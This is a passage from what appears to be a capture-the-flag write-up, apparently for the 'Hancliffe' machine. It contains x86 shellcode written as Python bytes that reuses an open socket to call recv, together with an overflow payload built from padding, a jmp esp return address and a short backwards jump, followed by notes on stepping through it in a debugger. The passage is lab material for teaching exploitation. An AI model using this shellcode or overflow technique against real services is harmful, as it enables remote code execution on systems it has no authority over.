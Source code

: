             # make space on stack
            b"\x83\xec\x64"           # sub esp, 0x64

            # push recv args
            b"\x31\xdb"               # xor ebx, ebx
            b"\x53"                   # push ebx, recv flags = 0
            b"\x66\x81\xc3\x04\x04"   # add bx, 0x404
            b"\x53"                   # push ebx, size = 0x404
            b"\x54"                   # push esp
            b"\x5b"                   # pop ebx
            b"\x83\xc3\x64"           # add ebx, 0x64
            b"\x53"                   # push ebx, buffer
            b"\x56"                   # push esi, sock descriptor

            # call recv
            b"\xa1\xac\x82\x90\x71"   # mov eax, [0x719082ac]
            b"\xff\xd0"               # call eax 
            )

    payload = recv_sc + b"\xCC"*(66-len(recv_sc)) + p32(0x7190239f) + b"\xeb\xb8"



I'll break at the `jmp esp`, and then step through to see where it would
be called, and it looks good:

[![](/img/hancliffe-socket-stack-2.png)*Click
for full size